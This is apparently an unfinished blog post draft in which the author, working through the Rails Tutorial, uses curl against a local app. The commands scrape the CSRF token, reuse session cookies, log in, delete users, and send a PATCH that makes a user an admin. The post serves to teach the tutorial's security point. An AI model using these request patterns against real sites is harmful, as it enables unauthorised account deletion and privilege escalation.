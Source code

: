 ```yaml
---
layout: post
title: Hacking Into the Mainframe
description: Calling unsecured Rails controller actions with curl.
tags:
- rails
- rails-tutorial
---
```

I was going through [Michael Hartl's Ruby on Rails Tutorial](https://railstutorial.org) and I found this line in chapter 10 interesting:

>As constructed, only admins can destroy users through the web since only they can see the delete links, but there’s still a terrible security hole: _any sufficiently sophisticated attacker could simply issue a `DELETE` request directly from the command line to delete any user on the site._

This caused me to ponder: am I a sufficiently sophisticated attacker? There was only one way to find out. I decided to try and issue just such a `DELETE` request myself.

## Sending evil HTTP requests from the command line with cURL

[cURL is a "command line tool and library for transferring data with URLs"](https://curl.haxx.se/). You can use it to, among other things, pretend to be a browser and send HTTP requests (evil or benign) directly from the command line.

__TODO: Show basic `curl` commands.__

But could deleting a user from the Rails app be as simple as sending a `DELETE` request to `/users/1`?

```shell
$ curl -s -X DELETE http://localhost:3000/users/1
```

Unfortunately (or fortunately) no:

```
Action Controller: Exception caught
ActionController::InvalidAuthenticityToken
```

This is the famous "CSRF token". Every newly loaded page contains such a token.

If I simply visited a page first with a `GET` request, grabbed a valid token and then passed it along in my subsequent `DELETE` request could I overcome this obstacle?

```shell
$ curl -s http://localhost:3000 | grep csrf-token
```

```html
<meta name="csrf-token" content="VlwVWGJP2BeIlnx/UbgJrolzVhoU2J6O6OBeYlZlVzZq70GfD7Is4Jkgpz1M4i/Xc1LME1pbBTQQLGFiUTc/lw==" />
```
We can store this in an enviornment variable and pass it along as data with any subsequent request.

```shell
CSRF_TOKEN=`curl -s http://localhost:3000/ | grep csrf-token | awk -F'"' '{print $4}'`
```

I discovered you will need to use `--data-urlencode` rather than `--data` for the token to be sent properly.

```shell
curl -s -X DELETE http://localhost:3000/users/99 --data-urlencode "authenticity_token=$CSRF_TOKEN"
```

Still `ActionController::InvalidAuthenticityToken`.

Cookies bro.

```shell
$ CSRF_TOKEN=`curl -s http://localhost:3000/ -c cookie | grep csrf-token | awk -F'"' '{print $4}'`
```

```shell
$ curl -s -X DELETE http://localhost:3000/users/99 --data-urlencode "authenticity_token=$CSRF_TOKEN" -b cookie
```


```shell
$ CSRF_TOKEN=`curl http://localhost:3000 -c cookie \
  | grep csrf-token \
  | awk -F'"' '{print $4}'`
```

```shell
$ curl -X POST http://localhost:3000/login -d "session[email]=example-1@railstutorial.org&session[password]=password" --data-urlencode "authenticity_token=$CSRF_TOKEN" -b cookie -c cookie | less
```

```shell
$ CSRF_TOKEN=`curl -s http://localhost:3000/users -c cookie -b cookie | grep csrf-token | awk -F'"' '{print $4}'`
```

```shell
$ curl -X DELETE http://localhost:3000/users/99 --data-urlencode "authenticity_token=$CSRF_TOKEN" -b cookie | less
```

```shell
$ curl -X PATCH http://localhost:3000/users/2 -d "user[admin]=1" --data-urlencode "authenticity_token=$CSRF_TOKEN" -b cookie | less
```
